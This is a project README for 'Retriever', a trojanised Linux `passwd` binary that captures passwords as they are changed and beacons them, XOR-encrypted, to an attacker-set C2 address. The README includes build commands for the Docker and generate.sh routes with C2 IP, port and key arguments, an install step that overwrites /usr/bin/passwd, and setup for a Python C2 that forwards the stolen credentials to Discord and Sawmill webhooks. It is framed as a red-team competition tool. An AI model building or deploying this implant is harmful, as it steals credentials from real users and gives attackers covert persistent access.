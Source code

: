 # Retriever passwd Shim

#### What is this?
This is a basic Linux binary shim method on the `passwd` binary from the shadow package. This will grab new passwords while they are being changed using the binary and send it back to a defined C2.

#### What does it work on? (Tested)

Ubuntu - 18.04+ <br />Centos - 8 <br />Debian - 9+ <br />Arch - Latest  

#### What is this intended for 
This is intended for red teaming in a competition environment.<br><br>

# Build Instructions

## Docker 
Provied in the repository are many Dockerfiles that will build a binary for the operating system you are going to deploy this tool on. If you would like to deploy on a linux distribution that is not listed you can use the provided Dockerfiles as a template to build off of. 

Run the command below replacing the build arguments with the desired values and using the Dockerfile for the correct operating system. 

	docker build . -f ubuntu2204.Dockerfile -o ./out --no-cache --rm --build-arg IP="192.168.1.1" --build-arg PORT="1234" --build-arg INTERFACE="ens2" --build-arg XOR_KEY="bruh"

The binary will be placed in the `docker/out/` path. If you build more than 1 binary from the same distribution it will overwrite the binary that has the same name. 

#### Build Arguements
- **IP** : IP address credentials will be sent to
- **PORT**		 : Destination port to send credentials to  	
- **INTERFACE**  : The interface that the binary will use on the machine to send credentials
- **XOR_KEY**: The password used to encrypt the credentials 
<br><br>
## Using VM or Host
Build binaries on the same operating system that it will be deployed on to reduce risk of issues with binary running. It is highly recommended you match the version as closely as possible.
### Dependancies
The dependancies for this project are listed below. There are also prepared commands to install dependancies using different package managers and distros. 
	
	git make wget autoconf autopoint libtool xsltproc bison
#### Distro Examples
##### Ubuntu / Debian
	apt install -y git wget make autoconf autopoint libtool xsltproc bison
##### RHEL Based
	yum install -y git wget make autoconf gettext-devel libtool libxslt bison
##### Arch
	pacman -Syu --noconfirm git wget make autoconf gettext libtool libxslt patch automake gcc bison
##### Alpine
	apk add git wget make autoconf gettext-dev libtool libxslt bison gcc
### Run Build Script
Clone the Retriever repository. The most up to date version is most likely the best one. 
	
	git clone https://github.com/P4ral1ax/Retriever
Run the `generate.sh` script as a superuser. It will display the variables entered and then it will start the build process. If you would like to change the parameteres you can run the script again and it should run much faster and it WILL overwrite existing files. 
	
	./generate.sh {C2 Address} {Port} {Inferface} {XOR Password}
The generated binary will be placed in the Retriever directory with the correct permissions. If the file does not appear the build process has failed.

Parameter definitions
- **C2 Address** : IP address credentials will be sent to
- **Port**		 : Destination port to send credentials to  	
- **Interface**  : The interface that the binary will use on the machine to send credentials
- **XOR Password**: The password used to encrypt the credentials 

### Install
To install the implant it is easy as replacing the original `passwd` binary on the system with the shimmed binary. Common location for this binary is `/usr/bin/passwd` and `/bin/passwd`. <br><br>


## Using the Python C2
This tool includes a simple server to recieve the credentals beaconed by the binary. This includes XOR decryption, parsing, and forwarding to a Discord and Sawmill webhook. 

A custom server could easily be used with retriever if desired. 
#### Pip Dependancies  
	python-dotenv requests
#### .env File

The python C2 expects a .env file to provide various parameters to run correctly. The C2 will run without a .env file but it highly recommended that it is utilized. 

#### .env Values

- **WEBHOOK** 	 : Set the Discord webhook (Default : none)
- **XOR_KEY** 	 : The key used to encrypt and decrypt (Default : bingus) 
- **PORT**    	 : Set the port the program listens on (Default : 8000)
- **SAWMILLURL** : Set the Sawmill URL (Default : none)

### Running the C2

Make sure firewalls allow traffic into that port then run the python file using Python3.

	python3 recv_pass.py
